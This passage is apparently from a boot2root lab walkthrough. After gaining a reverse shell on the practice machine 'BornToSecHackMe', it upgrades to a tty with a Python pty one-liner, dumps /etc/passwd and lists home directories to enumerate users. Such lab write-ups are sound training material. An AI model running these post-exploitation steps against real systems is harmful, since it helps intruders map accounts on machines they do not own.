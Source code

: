 We have a reverse shell ! Let's spawn a tty shell.

`python -c 'import pty;pty.spawn("/bin/bash")'`

Ok we have a great reverse shell, now let's enumerate the machine.

It is possible to dump the **passwd** file to see valid users on the machine.

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$ ls -lah /home
total 0
drwxrwx--x 1 www-data             root                  60 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 220 Sep 27 10:36 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```
